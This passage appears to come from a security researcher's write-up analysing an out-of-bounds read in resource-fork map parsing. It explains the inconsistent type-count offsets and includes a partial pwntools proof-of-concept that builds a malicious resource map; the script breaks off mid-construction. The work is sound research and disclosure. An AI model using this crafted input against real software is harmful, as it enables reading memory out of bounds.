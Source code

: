 However, `GetMapCommon` seems to retrieve the value differently from `GetResourcePtrCommon`. The former reads the value based on the offset to the resource type list, whereas the latter reads based on a fixed offset (30).

Now, I'm quite confused, not sure if they both are supposed to be the same value... Looking at the documentation repeatedly, I don't see any other explanation to this. Implementation mistake?

In any case, since both are read differently, I can set both to be different values, so that `num_types == 0` in `GetMapCommon`, but `num_types > 0` in `GetResourcePtrCommon`. (This was not reported in the advisory, so I wonder if there may be more bugs due to this?)

To achieve the above, I made a fake type list that is located at an offset different from the assumed 30. I tweaked the offsets a bit, and got the program to reach the `memmove` call as described in the advisory.

```cpp
    res_name_entry = &res_name_list[(unsigned __int16)__ROL2__(index, 8)];
    memmove(__dst, res_name_entry, (unsigned __int8)*res_name_entry + 1LL);
```

Earlier in `CheckMapCommon`, a bunch of checks were skipped because it returned early after seeing `num_types <= 0`. The offset of the resource name entry was not checked. So, it is possible to read out of bounds, within the range of 65536, as the offset is a WORD.

## POC

```py
from pwn import p8, p16, p32, p64, context

RELATIVE_READ = 0x6000

context.endian = 'big'

# res data (132 bytes)
res_data = b""
res_data += p32(128)
res_data += b"A" * 128

res_data_offset = 16 + 24
res_data_len = len(res_data)

# res map header (16 bytes (+16 later))
res_map = b""
res_map += p32(0)   # handle to next resource map
res_map += p16(0)   # file reference number
res_map += p16(0)   # fork attributes
res_map += p16(38)  # offset to res type list
res_map += p16(60)  # offset to res name list
res_map += p16(0)   # num types in map - 1

# type list (8 bytes)
res_map += b"FOND"
res_map += p16(0)       # num of res of this type - 1
res_map += p16(20)       # offset from type list start to ref list of this type

# fake type list (10 bytes)
res_map += p16(0xffff)  # num types in map - 1 (dup value???)
res_map += b"FOND"
res_map += p16(0)       # num of res of this type - 1
res_map += p16(20)       # offset from type list start to ref list of this type

# ref list (12 bytes)
res_map += p16(1337)        # res id
res_map += p16(RELATIVE_READ)           # offset from resource name list start to res name of this res
res_map += p8(0)            # attributes
```